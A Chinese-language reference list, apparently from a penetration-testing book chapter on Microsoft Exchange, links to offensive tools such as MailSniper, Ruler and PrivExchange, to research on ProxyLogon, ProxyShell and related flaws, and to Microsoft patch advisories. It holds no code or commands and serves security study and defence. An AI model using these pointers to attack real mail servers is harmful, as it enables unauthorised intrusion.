1.  假设漏洞模型 – [`www.redsiege.com/wp-content/uploads/2019/09/AssumedBreach-ABM.pdf`](https://www.redsiege.com/wp-content/uploads/2019/09/AssumedBreach-ABM.pdf)

1.  评估 Exchange 服务器安全性的思维导图 – [`github.com/Orange-Cyberdefense/arsenal/blob/master/mindmap/Pentesting_MS_Exchange_Server_on_the_Perimeter.png`](https://github.com/Orange-Cyberdefense/arsenal/blob/master/mindmap/Pentesting_MS_Exchange_Server_on_the_Perimeter.png)

1.  MailSniper – [`github.com/dafthack/MailSniper`](https://github.com/dafthack/MailSniper)

1.  NameMash – [`gist.github.com/superkojiman/11076951#file-namemash-py`](https://gist.github.com/superkojiman/11076951#file-namemash-py)

1.  EmailAddressMangler – [`github.com/dafthack/EmailAddressMangler`](https://github.com/dafthack/EmailAddressMangler)

1.  *snovvcrash* 编写的 OABurl 提取脚本 – [`gist.github.com/snovvcrash/4e76aaf2a8750922f546eed81aa51438#file-oaburl-py`](https://gist.github.com/snovvcrash/4e76aaf2a8750922f546eed81aa51438#file-oaburl-py)

1.  攻击 Exchange Web 接口 – [`swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/`](https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/)

1.  PEAS: Python 2 库和应用程序，用于在 Exchange 服务器上运行命令 – [`github.com/snovvcrash/peas`](https://github.com/snovvcrash/peas)

1.  MWR ActiveSync 外泄研究 – [`labs.withsecure.com/publications/accessing-internal-fileshares-through-exchange-activesync`](https://labs.withsecure.com/publications/accessing-internal-fileshares-through-exchange-activesync)

1.  ProxyLogon 漏洞发现 – [`devco.re/blog/2021/08/06/a-new-attack-surface-on-MS-exchange-part-1-ProxyLogon/`](https://devco.re/blog/2021/08/06/a-new-attack-surface-on-MS-exchange-part-1-ProxyLogon/)

1.  追踪 ProxyLogon – [`bi-zone.medium.com/hunting-down-ms-exchange-attacks-part-1-proxylogon-cve-2021-26855-26858-27065-26857-6e885c5f197c`](https://bi-zone.medium.com/hunting-down-ms-exchange-attacks-part-1-proxylogon-cve-2021-26855-26858-27065-26857-6e885c5f197c)

1.  发现 ProxyOracle 的漏洞研究人员的博客 – [`devco.re/blog/2021/08/06/a-new-attack-surface-on-MS-exchange-part-2-ProxyOracle/`](https://devco.re/blog/2021/08/06/a-new-attack-surface-on-MS-exchange-part-2-ProxyOracle/)

1.  关于 ProxyShell 的完整报告可以在 ZDI 博客中找到，链接如下 – [`www.zerodayinitiative.com/blog/2021/8/17/from-pwn2own-2021-a-new-attack-surface-on-microsoft-exchange-proxyshell`](https://www.zerodayinitiative.com/blog/2021/8/17/from-pwn2own-2021-a-new-attack-surface-on-microsoft-exchange-proxyshell)

1.  Palo Alto 的博客文章，涵盖 ProxyNotShell 漏洞 – [`unit42.paloaltonetworks.com/proxynotshell-cve-2022-41040-cve-2022-41082/`](https://unit42.paloaltonetworks.com/proxynotshell-cve-2022-41040-cve-2022-41082/)

1.  ProxyRelay 作者介绍该漏洞的详细信息 – [`devco.re/blog/2022/10/19/a-new-attack-surface-on-MS-exchange-part-4-ProxyRelay/`](https://devco.re/blog/2022/10/19/a-new-attack-surface-on-MS-exchange-part-4-ProxyRelay/)

1.  关于 ProxyNotRelay 的报告，它是 ProxyRelay 和 ProxyNotShell 的结合 – [`rw.md/2022/11/09/ProxyNotRelay.xhtml`](https://rw.md/2022/11/09/ProxyNotRelay.xhtml)

1.  漏洞 CVE-2020-0688 导致 Exchange Server 上的远程代码执行 – [`www.zerodayinitiative.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys`](https://www.zerodayinitiative.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys)

1.  Ysoserial.net – [`github.com/pwntester/ysoserial.net`](https://github.com/pwntester/ysoserial.net)

1.  关于 PrivExchange 漏洞的原创研究 – [`dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/`](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)

1.  PrivExchange – [`github.com/dirkjanm/privexchange/`](https://github.com/dirkjanm/privexchange/)

1.  通过 Outlook 邮件规则破坏工作站 – [`sensepost.com/blog/2016/mapi-over-http-and-mailrule-pwnage/`](https://sensepost.com/blog/2016/mapi-over-http-and-mailrule-pwnage/)

1.  Ruler 工具 – [`github.com/sensepost/ruler`](https://github.com/sensepost/ruler)

1.  微软公告 KB3191938 – [`support.microsoft.com/en-us/topic/description-of-the-security-update-for-outlook-2013-june-13-2017-d52f7b9a-488c-dd5a-0d43-da5832eaac5f`](https://support.microsoft.com/en-us/topic/description-of-the-security-update-for-outlook-2013-june-13-2017-d52f7b9a-488c-dd5a-0d43-da5832eaac5f)

1.  使用 Outlook 表单实现持久性 – [`sensepost.com/blog/2017/outlook-forms-and-shells/`](https://sensepost.com/blog/2017/outlook-forms-and-shells/)

1.  微软公告 KB4011091 – [`support.microsoft.com/en-us/office/custom-form-script-is-now-disabled-by-default-bd8ea308-733f-4728-bfcc-d7cce0120e94`](https://support.microsoft.com/en-us/office/custom-form-script-is-now-disabled-by-default-bd8ea308-733f-4728-bfcc-d7cce0120e94)

1.  Outlook 主页功能滥用 – [`sensepost.com/blog/2017/outlook-home-page-another-ruler-vector/`](https://sensepost.com/blog/2017/outlook-home-page-another-ruler-vector/)

1.  微软公告 KB15599094 – [`learn.microsoft.com/en-us/mem/configmgr/hotfix/2207/15599094`](https://learn.microsoft.com/en-us/mem/configmgr/hotfix/2207/15599094)
